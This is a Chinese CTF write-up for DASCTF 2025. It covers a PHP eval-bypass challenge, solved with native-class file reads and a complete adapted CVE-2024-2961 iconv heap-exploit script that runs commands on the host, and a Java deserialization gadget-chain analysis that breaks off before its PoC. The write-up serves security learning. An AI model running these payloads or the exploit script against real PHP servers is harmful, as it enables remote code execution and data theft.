









---
title: "DASCTF2025上半年赛"
date: 2025-06-21T09:51:40+08:00
summary: "DASCTF2025上半年赛"
url: "/posts/DASCTF2025上半年赛/"
categories:
  - "赛题wp"
tags:
  - "DASCTF2025"
draft: true
---

## phpms

发现有.git文件泄露，用GitHack提取一下



但是这些文件都是空的，用git diff拿到源码

```php
git log --oneline
git show 613dea6

git stash list
git stash show -p
```

```php
<?php
$shell = $_GET['shell'];
if(preg_match('/\x0a|\x0d/',$shell)){
    echo ':(';
}else{
    eval("#$shell");
}
?>
```

测了大半天发现disable_functions禁用了很多函数，后面发现可以用原生类方法去打



```php
?shell=?><?php $iterator = new FilesystemIterator('/');
foreach ($iterator as $fileinfo) {
    echo $fileinfo->getFilename() . "\n";
}
```

这里的话用`?>`闭合前面的注释符，然后用原生类去读目录

用SplFileObject读一下文件



```php
?shell=?><?php $content=new SplFileObject('/etc/passwd');
foreach($content as $content){
    echo $content."<br>";
}
```

既然可以读文件，一开始想的是CVE-2024-2961的任意文件读取到RCE，但是没测出来，一次失败的尝试

https://github.com/vulhub/vulhub/tree/master/php/CVE-2024-2961

```python
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
python cnext-exploit.py http://your-ip:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
```

但是bao'cuo

https://github.com/kezibei/php-filter-iconv

包师傅的POC

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
from dataclasses import dataclass
import re
import sys
import requests
from pwn import *
import zlib
import os
import binascii


HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")

@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self):
        return self.stop - self.start


def print_hex(data):
    hex_string = binascii.hexlify(data).decode()
    print(hex_string)


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.b64encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload


def _get_region(regions, *names):
    """Returns the first region whose name matches one of the given names."""
    for region in regions:
        if any(name in region.path for name in names):
            break
    else:
        pass
    return region


def find_main_heap(regions):
    # Any anonymous RW region with a size superior to the base heap size is a
    # candidate. The heap is at the bottom of the region.
    heaps = [
        region.stop - HEAP_SIZE + 0x40
        for region in reversed(regions)
        if region.permissions == "rw-p"
        and region.size >= HEAP_SIZE
        and region.stop & (HEAP_SIZE - 1) == 0
        and region.path == ""
    ]

    if not heaps:
        pass

    first = heaps[0]

    if len(heaps) > 1:
        heaps = ", ".join(map(hex, heaps))
        print("Potential heaps: " + heaps + " (using first)")
    else:
        # print("[*]Using " + hex(first) + " as heap")
        pass

    return first


def get_regions(maps_path):
    """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
    f = open('maps', 'rb')
    maps = f.read().decode()
    PATTERN = re.compile(
        r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
    )
    regions = []
    for region in maps.split("\n"):
        # print(region)
        match = PATTERN.match(region)
        if match:
            start = int(match.group(1), 16)
            stop = int(match.group(2), 16)
            permissions = match.group(3)
            path = match.group(4)
            if "/" in path or "[" in path:
                path = path.rsplit(" ", 1)[-1]
            else:
                path = ""
            current = Region(start, stop, permissions, path)
            regions.append(current)
        else:
            # print("[*]Unable to parse memory mappings")
            pass

    # print("[*]Got " + str(len(regions)) + " memory regions")
    return regions


def get_symbols_and_addresses(regions):
    # PHP's heap
    heap = find_main_heap(regions)

    # Libc
    libc_info = _get_region(regions, "libc-", "libc.so")

    return heap, libc_info


def build_exploit_path(libc, heap, sleep, padding, cmd):
    LIBC = libc
    ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
    ADDR_EFREE = LIBC.symbols["__libc_system"]
    ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]
    ADDR_HEAP = heap
    ADDR_FREE_SLOT = ADDR_HEAP + 0x20
    ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

    ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

    CS = 0x100

    # Pad needs to stay at size 0x100 at every step
    pad_size = CS - 0x18
    pad = b"\x00" * pad_size
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = chunked_chunk(pad, len(pad) + 6)
    pad = compressed_bucket(pad)

    step1_size = 1
    step1 = b"\x00" * step1_size
    step1 = chunked_chunk(step1)
    step1 = chunked_chunk(step1)
    step1 = chunked_chunk(step1, CS)
    step1 = compressed_bucket(step1)

    # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
    # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"

    step2_size = 0x48
    step2 = b"\x00" * (step2_size + 8)
    step2 = chunked_chunk(step2, CS)
    step2 = chunked_chunk(step2)
    step2 = compressed_bucket(step2)

    step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
    step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
    step2_write_ptr = chunked_chunk(step2_write_ptr)
    step2_write_ptr = compressed_bucket(step2_write_ptr)

    step3_size = CS

    step3 = b"\x00" * step3_size
    assert len(step3) == CS
    step3 = chunked_chunk(step3)
    step3 = chunked_chunk(step3)
    step3 = chunked_chunk(step3)
    step3 = compressed_bucket(step3)

    step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
    assert len(step3_overflow) == CS
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = chunked_chunk(step3_overflow)
    step3_overflow = compressed_bucket(step3_overflow)

    step4_size = CS
    step4 = b"=00" + b"\x00" * (step4_size - 1)
    step4 = chunked_chunk(step4)
    step4 = chunked_chunk(step4)
    step4 = chunked_chunk(step4)
    step4 = compressed_bucket(step4)

    # This chunk will eventually overwrite mm_heap->free_slot
    # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
    step4_pwn = ptr_bucket(
        0x200000,
        0,
        # free_slot
        0,
        0,
        ADDR_CUSTOM_HEAP,  # 0x18
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        ADDR_HEAP,  # 0x140
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        0,
        size=CS,
    )

    step4_custom_heap = ptr_bucket(
        ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
    )

    step4_use_custom_heap_size = 0x140

    COMMAND = cmd
    COMMAND = f"kill -9 $PPID; {COMMAND}"
    if sleep:
        COMMAND = f"sleep {sleep}; {COMMAND}"
    COMMAND = COMMAND.encode() + b"\x00"

    assert (
            len(COMMAND) <= step4_use_custom_heap_size
    ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
    COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

    step4_use_custom_heap = COMMAND
    step4_use_custom_heap = qpe(step4_use_custom_heap)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
    step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)
    pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * padding
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
    )

    resource = compress(compress(pages))
    resource = b64(resource)
    resource = f"data:text/plain;base64,{resource.decode()}"

    filters = [
        # Create buckets
        "zlib.inflate",
        "zlib.inflate",

        # Step 0: Setup heap
        "dechunk",
        "convert.iconv.latin1.latin1",

        # Step 1: Reverse FL order
        "dechunk",
        "convert.iconv.latin1.latin1",

        # Step 2: Put fake pointer and make FL order back to normal
        "dechunk",
        "convert.iconv.latin1.latin1",

        # Step 3: Trigger overflow
        "dechunk",
        "convert.iconv.UTF-8.ISO-2022-CN-EXT",

        # Step 4: Allocate at arbitrary address and change zend_mm_heap
        "convert.quoted-printable-decode",
        "convert.iconv.latin1.latin1",
    ]
    filters = "|".join(filters)
    path = f"php://filter/read={filters}/resource={resource}"
    path = path.replace("+", "%2b")
    return path

# -------------------------- 简化版主函数 --------------------------
def exp():
    ip = "cd75b1b6-18d7-4482-911c-43be6f8dbeab.node5.buuoj.cn"
    port = "81"
    url = f"http://{ip}:{port}/"

    maps = base64.b64decode(requests.get(
        f"{url}?shell=?%3E%3C?php%20$context%20=%20new%20SplFileObject(%27php://filter/convert.base64-encode/resource=/proc/self/maps%27);foreach($context%20as%20$f){{echo($f);}}"
    ).text)
    open("maps", "wb").write(maps)

    libc = base64.b64decode(requests.get(
        f"{url}?shell=?%3E%3C?php%20$context%20=%20new%20SplFileObject(%27php://filter/convert.base64-encode/resource=/lib/x86_64-linux-gnu/libc-2.31.so%27);foreach($context%20as%20$f){{echo($f);}}"
    ).text)
    open("libc-2.23.so", "wb").write(libc)

    regions = get_regions("maps")
    heap, libc_info = get_symbols_and_addresses(regions)
    libc = ELF("libc-2.23.so", checksec=False)
    libc.address = libc_info.start

    cmd = "(echo \"auth admin123\nkeys *\nget flag\" | redis-cli) > /tmp/1.txt"
    payload = build_exploit_path(libc, heap, sleep=1, padding=20, cmd=cmd)

    try:
        requests.get(f"{url}?shell=?%3E%3C?php%20$context=new%20SplFileObject(%27{payload}%27);foreach($context%20as%20$f){{echo($f);}}")
    except:
        pass
    time.sleep(2)

    result = requests.get(f"{url}?shell=?%3E%3C?php%20$context=new%20SplFileObject(%27/tmp/1.txt%27);foreach($context%20as%20$f){{echo($f);}}").text
    match = re.search(r"DASCTF{.*?}", result)
    if match:
        print("[+] Got flag:", match.group(0))
    else:
        print("[-] Flag not found")

# --------------------------
if __name__ == '__main__':
    exp()
```

## 再短一点点（赛后）

首先感谢Infer师傅写的14页wp，特别详细！

附件jar包放jadx里面反编译一下



把源码导出来放IDEA里面吧，感觉在这里面查函数和用法不太方便

先看一下控制器代码

```java
package GFCTF;

import java.io.BufferedReader;
import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.FileReader;
import java.io.IOException;
import java.io.InvalidClassException;
import java.io.PrintWriter;
import java.io.StringWriter;
import java.util.Base64;
import java.util.zip.InflaterInputStream;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
/* loaded from: ezSpringBoot-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/GFCTF/MyController.class */
public class MyController {
    @GetMapping({"/"})
    @ResponseBody
    public String index() {
        return "<h1>Welcome to GFCTF!</h1>";
    }

    @GetMapping({"/flag"})
    @ResponseBody
    public String flag() throws IOException {
        File file = new File("/a");
        if (file.exists()) {
            return "Good luck~";
        }
        BufferedReader reader = new BufferedReader(new FileReader("/flag"));
        return "Congratulations, you deserve it: " + reader.readLine();
    }

    @PostMapping({"/deser"})
    @ResponseBody
    public String deserialize(@RequestParam String payload) {
        if (payload.length() > 1282) {
            return "Your payload is too long! Go back and modify it!!!";
        }
        byte[] bytes = Base64.getDecoder().decode(payload);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        try {
            MyObjectInputStream myObjectInputStream = new MyObjectInputStream(new InflaterInputStream(byteArrayInputStream));
            myObjectInputStream.readObject();
            return "Ok";
        } catch (InvalidClassException e) {
            return e.getMessage();
        } catch (Exception e2) {
            e2.printStackTrace();
            StringWriter sw = new StringWriter();
            PrintWriter pw = new PrintWriter(sw);
            e2.printStackTrace(pw);
            String stackTrace = sw.toString();
            if (stackTrace.contains("getStylesheetDOM")) {
                return "命运的硬币抛向了反面，重启环境试试？";
            }
            return "something went wrong :(";
        }
    }
}
```

在/deser路由下有反序列化的操作，这里的话需要post传入payload，并且payload的长度不能大于1282，之后会进行base64解码，我们接下来看主要部分

```java
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        try {
            MyObjectInputStream myObjectInputStream = new MyObjectInputStream(new InflaterInputStream(byteArrayInputStream));
            myObjectInputStream.readObject();
            return "Ok";
        } 
```

先是进行一个常规的Byte字节流的获取，我们看一下InflaterInputStream



这里会使用指定的解压缩器和默认的缓冲区大小创建一个新的输入流。

然后看一下MyObjectInputStream，其实就是一个反序列化的操作，只不过换了个类名

所以这里的话基本上可以确定是反序列化了，我们来看另一个路由

```java
@GetMapping({"/flag"})
    @ResponseBody
    public String flag() throws IOException {
        File file = new File("/a");
        if (file.exists()) {
            return "Good luck~";
        }
        BufferedReader reader = new BufferedReader(new FileReader("/flag"));
        return "Congratulations, you deserve it: " + reader.readLine();
    }
```

这里的话会试图读取一个/a的文件，如果文件存在就返回`Good luck~`，否则就会读取flag，然后逐行输出

那我们在环境中访问一下/flag路由，发现确实返回`Good luck~`，所以我们要触发反序列化去删除掉这个根目录的a文件，这样才能读到flag

一开始的话我的想法是找java.io.File类中的delete()方法去调用删除a文件，但是没找到合适的，然后就来到了赛后复现

我们先来看一下反序列化的代码，毕竟他是自己写的，肯定有什么过滤啥的



这里的话主要是过滤了三个包

```java
String[] denyClasses = {"com.sun.org.apache.xalan.internal.xsltc.trax", "javax.management", "org.springframework.aop.aspectj"};
```

第一个主要过滤TemplatesImpl类，这个类我们需要用来rce。

第二个主要过滤javax.management.BadAttributeValueExpException类，这个类常用来触发toString。

第三个过滤了最近一条aop链，这里不重要。

然后我们来看一下利用链的构造和分析

我们看一下lib文件夹



有jackson依赖，还禁用了emplatesImpl类，估计是要打二次反序列化的

参考一下infer师傅的文章：https://infernity.top/2025/03/05/Jackson%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#poc-1

里面的poc可以拿来用，但是需要改几个地方

### 序列化方法的编写

第一个就是我们之前看到的解压输入流InflaterInputStream的操作，我们在序列化的时候需要压缩我们的输出流，所以这里要用到DeflaterOutputStream，写个完整的序列化方法



```java
    public static String serialize(Object obj) throws IOException{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        Deflater deflater = new Deflater(Deflater.BEST_COMPRESSION);
        DeflaterOutputStream deflaterOutputStream = new DeflaterOutputStream(byteArrayOutputStream, deflater);

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(deflaterOutputStream);
        objectOutputStream.writeObject(obj);
        
        //关闭流
        objectOutputStream.flush();
        objectOutputStream.close();
        
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc ;
    }
```

然后就是触发toString()方法的地方，因为javax.management.BadAttributeValueExpException类我们是用不了的，所以需要找其他可以触发toString()的方法

搜到一个AliyunCTF的一个题目是打的原生反序列化，http://www.bmth666.cn/2024/03/31/%E7%AC%AC%E4%BA%8C%E5%B1%8A-AliyunCTF-chain17%E5%A4%8D%E7%8E%B0/index.html，这里的话就是用javax.swing.event.EventListenerList#readObject去触发toString方法，我们来看一下javax.swing.event.EventListenerList#readObject方法

```java
    private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        listenerList = NULL_ARRAY;
        s.defaultReadObject();
        Object listenerTypeOrNull;

        while (null != (listenerTypeOrNull = s.readObject())) {
            ClassLoader cl = Thread.currentThread().getContextClassLoader();
            EventListener l = (EventListener)s.readObject();
            String name = (String) listenerTypeOrNull;
            ReflectUtil.checkPackageAccess(name);
            @SuppressWarnings("unchecked")
            Class<EventListener> tmp = (Class<EventListener>)Class.forName(name, true, cl);
            add(tmp, l);
        }
    }
```

里面的

```java
Class<EventListener> tmp = (Class<EventListener>)Class.forName(name, true, cl);
 add(tmp, l);
```

这里的话对类采用了add方法，我们跟进一下



这里的话就是将类和字符串进行拼接，此时就可以触发toString()方法，然后我们看看这个变量是否可控

```java
EventListener l = (EventListener)s.readObject();
```

这里会强制转化成EventListener的类，并且该类实现了序列化接口，我们看看writeObject的逻辑

```java
    @Serial
    private void writeObject(ObjectOutputStream s) throws IOException {
        Object[] lList = listenerList;
        s.defaultWriteObject();

        // Save the non-null event listeners:
        for (int i = 0; i < lList.length; i+=2) {
            Class<?> t = (Class)lList[i];
            EventListener l = (EventListener)lList[i+1];
            if (l instanceof Serializable) {
                s.writeObject(t.getName());
                s.writeObject(l);
            }
        }

        s.writeObject(null);
    }
```

这里的话会存放到 listenerList 属性中，那我们的poc就是
